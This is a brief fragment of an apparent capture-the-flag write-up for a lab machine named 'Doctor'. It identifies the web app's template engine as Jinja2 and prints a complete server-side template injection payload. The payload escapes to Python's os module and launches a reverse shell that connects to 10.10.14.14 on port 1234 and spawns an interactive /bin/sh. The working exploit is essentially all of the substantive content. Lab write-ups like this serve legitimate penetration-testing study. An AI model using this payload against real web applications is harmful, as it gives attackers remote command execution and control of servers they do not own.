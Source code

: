 ![image-20240126185556757](./Doctor.assets/image-20240126185556757.png)

- Twig is for php, as this site is hosted on Python => **Jinja2**

- **SSTI Payload**:

```console
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.14\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

![image-20240126185636014](./Doctor.assets/image-20240126185636014.png)
